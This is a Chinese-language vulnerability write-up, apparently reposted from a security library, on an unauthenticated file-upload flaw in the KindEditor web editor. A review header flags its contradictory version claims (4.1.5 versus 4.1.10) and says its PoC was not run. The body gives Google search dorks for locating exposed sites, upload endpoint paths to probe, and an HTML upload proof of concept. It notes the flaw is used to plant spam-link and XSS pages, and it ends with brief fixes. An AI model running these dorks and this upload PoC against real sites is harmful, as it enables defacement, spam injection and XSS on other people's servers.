







## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：标题/简介&lt;=4.1.5，但实验明确4.1.10，范围矛盾；依赖服务端example handler暴露、鉴权与允许扩展名

代码与实验材料：客户端uploadbutton和后端四语言路径，证明TXT/HTML上传，不证明服务器脚本执行；XSS还需访问同源HTML/内容类型

来源证据范围：BaizeSec转载，无官方公告/原作者，复制按钮javascript:void链接残留

- **适用与权限边界（1）**：版本边界与实测自相矛盾；依据：&lt;=4.1.5与4.1.10成功案例同时出现。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **适用与权限边界（2）**：上传允许类型与安全边界未分清；依据：扩展表本就允许HTML/TXT，需说明应有鉴权、存储隔离/访问权限及同源脚本影响，不能等同任意WebShell上传。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（3）**：修复建议过于粗放；依据：删除upload_json和file_manager可能破坏合法功能，最新版无固定点；两套路径版本及跨域页面行为未说明。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# kindeditor<=4.1.5上传漏洞     	

## 0x00 漏洞描述

漏洞存在于kindeditor编辑器里，你能上传.txt和.html文件，支持php/asp/jsp/asp.net,漏洞存在于小于等于kindeditor4.1.5编辑器中

这里html里面可以嵌套暗链接地址以及嵌套xss。Kindeditor上的uploadbutton.html用于文件上传功能页面，直接POST到/upload_json.*?dir=file，在允许上传的文件扩展名中包含htm,txt：extTable.Add("file","doc,docx,xls,xlsx,ppt,htm,html,txt,zip,rar,gz,bz2")

 

## 0x01 批量搜索

在google中批量搜索：


```text
[](javascript:void(0);)
```


```
inurl:/examples/uploadbutton.html

inurl:/php/upload_json.php

inurl:/asp.net/upload_json.ashx

inurl://jsp/upload_json.jsp

inurl://asp/upload_json.asp

inurl:gov.cn/kindeditor/
```


```text
[](javascript:void(0);)
```


 

 

## 0x02 漏洞问题

根本脚本语言自定义不同的上传地址，上传之前有必要验证文件 upload_json.* 的存在


```text
[](javascript:void(0);)
```


```
/asp/upload_json.asp

/asp.net/upload_json.ashx

/jsp/upload_json.jsp

/php/upload_json.php
```


```text
[](javascript:void(0);)
```


可目录变量查看是否存在那种脚本上传漏洞:


```text
[](javascript:void(0);)
```


```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```


```text
[](javascript:void(0);)
```


## 0x03 漏洞利用

google搜素一些存在的站点 inurl：kindeditor

1.查看版本信息

http://www.xxx.org/kindeditor//kindeditor.js



 

2.版本是4.1.10可以进行尝试如下路径是否存在有必要验证文件 upload_json.* 


```text
[](javascript:void(0);)
```


```
kindeditor/asp/upload_json.asp?dir=file

kindeditor/asp.net/upload_json.ashx?dir=file

kindeditor/jsp/upload_json.jsp?dir=file

kindeditor/php/upload_json.php?dir=file
```


```text
[](javascript:void(0);)
```


3.如下图可以看出是存在jsp上传点:

http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file



 

 

4.写出下面的构造上传poc,这里需要修改`<script>...<script>`以及url : 的内容,根据实际情况修改.


```text
[](javascript:void(0);)
```


```
<html><head>

 

<title>Uploader</title>

 

<script src="http://www.xxx.org/kindeditor//kindeditor.js"></script>

 

<script>

 

KindEditor.ready(function(K) {

 

var uploadbutton = K.uploadbutton({

 

button : K('#uploadButton')[0],

 

fieldName : 'imgFile',

 

url : 'http://www.xxx.org/kindeditor/jsp/upload_json.jsp?dir=file',

 

afterUpload : function(data) {

 

if (data.error === 0) {

 

var url = K.formatUrl(data.url, 'absolute');

 

K('#url').val(url);}

 

},

 

});

 

uploadbutton.fileBox.change(function(e) {

 

uploadbutton.submit();

 

});

 

});

 

</script></head><body>

 

<div class="upload">

 

<input class="ke-input-text" type="text" id="url" value="" readonly="readonly" />

 

<input type="button" id="uploadButton" value="Upload" />

 

</div>

 

</body>

 

</html>
```


```text
[](javascript:void(0);)
```


 

5.用浏览器打开,然后开启bupsuit进行拦截发送,可以看到成功上传txt文件



 



 

 



 

6.同时也可以上传.html文件,这里就是攻击者最喜欢上传的文件(里面包含了各种暗页连接地址,如菠菜和其他色情站点链接地址)

 



 

 



 

## 0x04 漏洞修复

1.直接删除upload_json.*和file_manager_json.*

2.升级kindeditor到最新版本


---

> 来源：白阁文库 BaizeSec/bylibrary
